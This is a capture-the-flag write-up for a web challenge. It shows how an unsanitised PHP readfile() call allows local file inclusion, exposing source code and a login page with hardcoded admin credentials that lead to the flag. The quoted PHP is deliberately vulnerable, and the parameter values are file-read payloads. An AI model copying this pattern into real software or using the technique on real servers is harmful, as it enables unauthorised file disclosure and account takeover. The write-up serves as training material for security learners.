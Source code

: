 # flagCTF – Exquisifax Admin Panel

* **Category:** Web Exploitation
* **Points:** 40

## Challenge

>Let's go back to the Exquisifax site: http://18.217.184.75:8002/. Find a way to log in to the site, and report the flag.
>
>Scope of attack: http://18.217.184.75:8002/*

## Solution

The login page doesn't appear to be vulnerable to any injections, and there's no information we can really glean from it.

We head back to the home page, and try putting in "color" for the color parameter, "number" for the number parameter, and "shape" for the shape parameter.

We get back the following error: ```Warning: readfile(color/shape/number): failed to open stream: No such file or directory in /var/www/html/display2.php on line 3```

This means that display2.php utilizes the readfile function, which, if unsanitized, would let us perform LFI. It's important to note that the server retrieves images in the order color, shape, number but the text boxes are in the order color, number, shape.

Let's try to grab the source for display2.php by setting color to ".", number to "display2.php", and shape to "."

As suspected, we get the source:

```
<?php
$filepath = str_replace("..","",$_GET['color']) . '/' . str_replace("..","",$_GET['shape']) . '/' . str_replace("..","",$_GET['number']) ;
readfile($filepath);
?>
```

There's not really any sanitization occurring, besides some to prevent a directory traversal attack. So, we can plug in the exact same arguments as before, and replace display2.php with login.php.

```

<?php
session_start();
$errorMsg = "";
$validUser = $_SESSION["login"] === true;
if(isset($_POST["sub"])) {
  $validUser = $_POST["username"] == "admin" && $_POST["password"] === "SecurelyAblazeStorableVacuum";
  if(!$validUser) $errorMsg = "Invalid username or password.";
  else $_SESSION["login"] = true;
  // echo($_SESSION["login"]);
}
if($validUser) {
   $_SESSION["login"] = true;
   header("Location: loggedin.php");  // die();
}
// https://stackoverflow.com/questions/19531044/creating-a-very-simple-1-username-password-login-in-php/19531260
?>
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="content-type" content="text/html;charset=utf-8" />
  <title>Login</title>
</head>
<body>
  <h2 style="color:blue">Log In to the protected site</h2>
    <div class="error"><?= $errorMsg ?></div>
  <form name="input" action="" method="post">
    <label for="username">Username:</label><input type="text" value="<?= $_POST["username"] ?>" id="username" name="username" />
    <br/>
    <label for="password">Password:</label><input type="password" value="" id="password" name="password" />
    <br/>
    <br/>
    <div class="error"><?= $errorMsg ?></div>
    <input type="submit" value="Login" name="sub" />
  </form>
</body>
</html>
```

The PHP code validates the user if their username is admin and their password is SecurelyAblazeStorableVacuum. We go back to the login page and plug these credentials in.

```
200aaa7c1acbd70d2b243bbdc761fc38
```